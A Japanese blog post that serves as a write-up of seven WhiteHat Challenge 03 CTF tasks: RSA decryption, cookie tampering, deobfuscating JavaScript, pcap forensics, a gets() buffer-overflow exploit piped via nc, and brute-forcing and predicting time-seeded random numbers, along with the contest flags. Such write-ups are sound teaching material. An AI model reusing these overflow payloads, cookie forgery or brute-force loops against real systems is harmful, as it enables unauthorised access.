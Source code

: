 ```yaml
---
layout: post
title: WhiteHat Challenge 03 の write-up
categories: [ctf]
date: 2017-04-27 19:47:00 +0900
---
```


チーム Harekaze で [WhiteHat Challenge 03](https://wargame.whitehat.vn/Contests/ChallengesContest/36) に参加しました。最終的にチームで 115 点を獲得し、順位は 24 位 (得点 101 チーム中) でした。うち、私は 7 問を解いて 115 点を入れました。

以下、解いた問題の write-up です。

## [Cryptography 10] Crypto002

RSA で暗号化された暗号文とその他もろもろ (n, p, q, e) が与えられました。

p と q まで与えられているので、これを使って暗号文を復号すると `simple_rsa_decryption` が得られました。

```
WhiteHat{100be37579e0f27c314efcb68a773b31537b5118}
```

## [Web Security 20] Web001

与えられた URL にアクセスするとログインフォームが表示されました。

ソースを見ると `<!-- test/test -->` とあります。ユーザ名とパスワードに `test` を入力するとログインができました。が、フラグは `admin` でないと見られないようです。

Cookie を見ると `user=test` がセットされていました。`user=admin` に変えると `don't_believe_cookies_at_all` と表示されました。

```
WhiteHat{92b2bc2f657574ab3481ebcb6705c36079b3e6d7}
```

## [Web Security 15] Web002

パスワードのチェックをする HTML が与えられます。ソースを見ると、どうやら JSF*ck で難読化されているようです。

試しに適当なパスワードを入力してみると、alert が表示されました。

`alert = () => { debugger; };` してもう一度適当なパスワードを入力すると、コールスタックにパスワードのチェックをする関数が乗っていました。どうやらパスワードは `wonert1sf7kz` のようです。

このパスワードでログインすると `easy_javascript_right?` と表示されました。

```
WhiteHat{9f1a7c9986e0ce43e383935ac88d37e77a659996}
```

## [Forensics 15] For001

pcapng ファイルが与えられます。pcap ファイルに変換して binwalk に投げてみると以下のような結果になりました。

```
$ binwalk a.pcap

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
84991         0x14BFF         Zip archive data, at least v1.0 to extract, name: Flag/
85054         0x14C3E         Zip archive data, at least v2.0 to extract, compressed size: 49, uncompressed size: 50, name: Flag/flag.txt
85332         0x14D54         End of Zip archive, footer length: 22
```

zip を取り出して展開するとフラグが出てきました。

```
WhiteHat{3244495470c50733ac0d93b7b4f8c6d12eaba65c}
```

## [Forensics 15] For002

pcap ファイルが与えられます。問題文によるとフラグはユーザがログインに使ったパスワードのようです。

適当に眺めていると `POST /accounts/login/` している HTTP リクエストが見つかりました。この中に `password=%40Bkav123%23%24challange3` とパスワードがありました。

```
WhiteHat{0d712cbea97819fa1e1c0a605283b1b912bcf350}
```

## [Pwnable 20] Pwn001

バイナリファイルが与えられます。試しに動かしてみると、以下のようになりました。

```
$ file ./zombie_overflow
./zombie_overflow: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3ab0794729156ef1514cf67df500b6e6815c30f5, not stripped
$ ./zombie_overflow
Zombie apocalypse!!!!What will you do now, little boy?
Your weapon : ho
Your action : ge
Your live percentage is: 0xdead
You did it! Except some bite on your arm :O
```

少し解析してみると、どうやら体力が 0xc0de の時に `cat flag.txt` がされるようです。

また、weapon と action の入力に gets が使われているため、体力まで書き換えることが出来るようです。

```
$ python -c "import struct; print 'A' * 256 + struct.pack('<I', 0xc0de) + '\n' + 'a'" | nc 103.237.99.35 25033
Zombie apocalypse!!!!What will you do now, little boy?
Your weapon : Your action : Your live percentage is: 0xc0de
My great survivor!
Here is your prize: w4nt_t0_b3_4_z0mb1e_som3t1me_r1ght?
```

```
WhiteHat{80092863ba83401ace933e149a165bab1155c4f3}
```

## [Pwnable 20] Pwn002

`nc 103.237.98.32 25032` というコマンドだけが与えられました。試しに接続してみると、以下のようになりました。

```
$ nc 103.237.98.32 25032

I have two secret numbers, I like you guessing them. Are you ready?

        The first challenge: guessing one,
Enter your number:100
You've guessed incorrectly. Don't give up! Try again with a number between 100 and 1000.
```

100 から 1000 まで全部試してみましょう。

```
$ for i in {100..1000}; do echo $i; echo $i | nc 103.237.98.32 25032; done
...
576

I have two secret numbers, I like you guessing them. Are you ready?

        The first challenge: guessing one,
Enter your number:Well done! The secret numer is 576. Pass challenge 2 to get the flag

        Challenge 2: Guessing the second
Now,Guessing the second one. I use srand() function in C with argument time(0).
Enter your number:
...
```

1 つ目の数字は 576 だったようです。2 つ目の数字もどうやって生成しているか教えてくれているので、適当に当てましょう。

```
$ cat a.c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
int main(void) {
  srand(time(NULL));
  puts("576");
  printf("%d\n", rand());
  return 0;
}
$ gcc a.c -o a && ./a | nc 103.237.98.32 25032

I have two secret numbers, I like you guessing them. Are you ready?

        The first challenge: guessing one,
Enter your number:Well done! The secret numer is 576. Pass challenge 2 to get the flag

        Challenge 2: Guessing the second
Now,Guessing the second one. I use srand() function in C with argument time(0).
Enter your number:
Amazing !You are right. Flag is: Life_is_a_story_make_yours_the_best_seller.
```

```
WhiteHat{1d97317719f904bebb9950a5334e6af839992515}
```
